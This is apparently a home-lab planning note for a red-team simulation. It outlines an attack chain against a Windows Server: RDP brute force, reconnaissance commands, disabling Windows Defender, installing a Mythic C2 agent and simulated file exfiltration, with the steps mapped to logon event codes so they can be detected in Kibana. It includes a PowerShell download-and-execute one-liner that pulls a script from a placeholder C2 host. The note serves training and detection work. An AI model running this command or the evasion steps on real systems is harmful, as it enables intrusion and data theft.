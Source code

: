 
## Introduction

Goal: Create an attack diagram that outlines the sequence of actions taken to compromise a target Windows Server, establish a C2 connection, and exfiltrate data. The diagram will be used as a visual plan for simulating and analyzing the attack.

Tool: draw.io (for creating the diagram)

---

## Components of the Diagram

- **Attacker Laptop (Kali Linux)**
    
    - Color: Red
    - Role: Launch brute force and control the attack.
        
- **Windows Server (Target Machine)**
    
    - Role: System to be compromised via RDP brute force.
        
- **Mythic C2 Server**
    
    - Color: Red
    - Role: Command and control platform for managing the compromised machine.
        
- **Internet**
    
    - Role: Communication channel between attacker and target.
        
- **SSH Server (optional)**
    
    - Role: Potential future target.
        

---

## Attack Phases

### Phase 1: Initial Access

- Method: RDP brute force attack from attacker’s Kali Linux machine.
- Target: Windows Server.
- Goal: Gain successful authentication into the target system.

`event.code: 4625 (Failed) event.code: 4624 (Success)`

---

### Phase 2: Discovery

- After gaining access, the attacker runs basic reconnaissance commands to learn about the system:
    
    `whoami ipconfig net user net group`
    
- Goal: Identify user permissions, network configuration, and system information.

---

### Phase 3: Defense Evasion

- The attacker disables Windows Defender to bypass security controls.
- Command executed within the RDP session.
- Purpose: Prevent security tools from blocking the next steps.

---

### Phase 4: Execution

- Using PowerShell, the attacker downloads and executes the Mythic agent from the Mythic C2 server:
    
    `IEX (New-Object Net.WebClient).DownloadString('http://<C2_SERVER>/agent.ps1')`
    
- Goal: Install the agent and prepare for C2 communication.

---

### Phase 5: Command and Control (C2)

- The agent establishes a persistent connection back to the Mythic C2 server.
- The attacker now has remote command execution and monitoring capabilities on the target machine.

---

### Phase 6: Exfiltration

- The attacker simulates data theft by downloading a file (e.g., `password.txt`) from the target machine’s Documents folder through the C2 channel.
- This phase completes the full attack chain from initial access to data exfiltration.

---

## Final Attack Flow Summary

1. Attacker (Kali Linux) → Brute forces RDP credentials on Windows Server.
2. Attacker logs into Windows Server.
3. Attacker runs discovery commands to learn about the environment.
4. Attacker disables Windows Defender for evasion.
5. Attacker uses PowerShell to download and execute Mythic agent.
6. Mythic agent connects to C2 server.
7. Attacker downloads `password.txt` as simulated exfiltration.

---

## Outcome 

- This diagram serves as a structured attack plan for future red team simulations.
- The attack steps can later be correlated with log data in Kibana to analyze detection and response capabilities.

**Reference**
https://youtu.be/jv-qiugJGHg?si=ZhkVu0mDS1YYAhDu